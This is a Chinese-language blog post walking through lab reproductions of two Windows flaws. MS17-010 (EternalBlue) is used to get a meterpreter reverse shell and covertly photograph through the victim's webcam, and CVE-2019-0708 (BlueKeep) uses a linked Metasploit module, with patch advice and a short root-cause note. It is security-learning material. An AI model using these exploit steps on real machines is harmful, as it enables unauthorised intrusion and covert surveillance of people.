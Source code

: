 ```yaml
---
layout: post
title: 复现两个漏洞
date: 2019-09-19
categories: test
tags: 漏洞复现
---
```


# ms17-010漏洞复现，提权并打开摄像头，拍照

## 实验环境:kali-linux和Windows7(未装补丁)

Kali IP:192.168.1.107

win7 IP:192.168.1.102

首先检查kali的postgresql服务是否运行，命令:service postgresql status

![1]({{ "/assets/img/010 1.png" }})

显示active即正常运行，如果没有的话启动一下，service postgresql start

然后启动msfconsole

![1]({{ "/assets/img/010 2.png" }})

命令行显示msf则启动成功

search一下ms17

![1]({{ "/assets/img/010 3.png" }})

使用永恒之蓝漏洞
use exploit/windows/smb/ms17_010_eternalblue

![1]({{ "/assets/img/010 4.png" }})

先show options看看我们需要设置哪些参数

![1]({{ "/assets/img/010 5.png" }})

图上显示需要RHOSTS也就是目标靶机的IP，以及445端口

现在设置靶机IP

![1]({{ "/assets/img/010 6.png" }})

然后show payloads看看有哪些可以用的payload

![1]({{ "/assets/img/010 7.png" }})

我这里选择第15条 windows/x64/meterpreter/reverse_tcp，因为他的meterpreter模块可以简化win7的命令，并进行更丰富的操作.

set payload windows/x64/meterpreter/reverse_tcp之后再show options看看有没有需要添加的参数

![1]({{ "/assets/img/010 8.png" }})

这里需要添加LHOST监听，输入我们kali的IP地址就行了

![1]({{ "/assets/img/010 9.png" }})

现在所有选项已经设置，就可以开始攻击靶机了

![1]({{ "/assets/img/010 10.png" }})

成功并且加载meterpreter模块

![1]({{ "/assets/img/01011.png" }})

拿到权限

![1]({{ "/assets/img/01012.png" }})

扫描摄像头

![1]({{ "/assets/img/01013.png" }})

打开摄像头

![1]({{ "/assets/img/01014.png" }})

![1]({{ "/assets/img/01017.png" }})

拍照

![1]({{ "/assets/img/01015.png" }})

![1]({{ "/assets/img/01016.png" }})

当然，在meterpreter模块中，还有更多的操作，比如记录键盘输入以及截屏等等

# CVE-2019-0708漏洞复现提权

## 漏洞概述

2019年05月14日，微软发布了针对Windows远程桌面服务远程执行代码漏洞（CVE-20190708）的补丁，利用该漏洞攻击者能在未认证的情况下，通过发送特殊请求，在目标系统上执行任意代码，从而获取目标系统控制权限。该漏洞影响范围广泛，从Windows XP到server 2008 R2，危害被官方评级为严重，如存在该漏洞的用户应尽快安全补丁对该漏洞进行修补

## 防护建议

（1）请及时更新官方系统补丁，补丁地址：https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708
（2）关闭远程桌面服务
（3）开启网络身份验证（NLA）

## 受影响版本

Windows XP
Windows 7
Windows Server 2003
Windows Server 2008
Windows Server 2008 R2

## 实验环境:kali-linux和Windows7(开启远程桌面服务)

exp具体地址及其msf配置<a href="https://github.com/NAXG/cve_2019_0708_bluekeep_rce" target="_blank">https://github.com/NAXG/cve_2019_0708_bluekeep_rce</a>，记得reload_all加载新加的模块。

添加之后还是先打开msf，search 0708

![1]({{ "/assets/img/07081.png" }})

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

![1]({{ "/assets/img/07082.png" }})

还是show options看看，只需要rhosts

![1]({{ "/assets/img/07083.png" }})

然后payload还是用上面010的哪个payload，之后需要再次设置lhost监听，设置之后再show targets看看攻击目标的选项，这里选择第三个，set target 3

![1]({{ "/assets/img/07084.png" }})

设置好之后run，win7迅速蓝屏，但是并没有拿到权限

![1]({{ "/assets/img/07085.png" }})

![1]({{ "/assets/img/0708.png" }})

经过百度和问大佬之后，大佬给我说虚拟机算是一个沙盒，让我试试set target 2

![1]({{ "/assets/img/07086.png" }})

成功拿到权限，进入meterpreter模块，并且没有蓝屏

![1]({{ "/assets/img/07087.png" }})

## 漏洞简单分析

该漏洞是由于"MS_T120"SVC名称在RDP协议的GCC绘画初始序列化期间被绑定为数字31的参考信道。

这个信道名称由Microsoft在内部使用，并且客户端没有明显的合法用例来请求通过名为"MS_T120"的SVC进行连接

在GCC会话初始化期间，客户端提供服务器未列入白名单的频道名称，这意味着攻击者可以在31以外的其他频道上设置另一个"MS_T120"的SVC。从而导致堆内存损坏和远程代码执行(RCE).

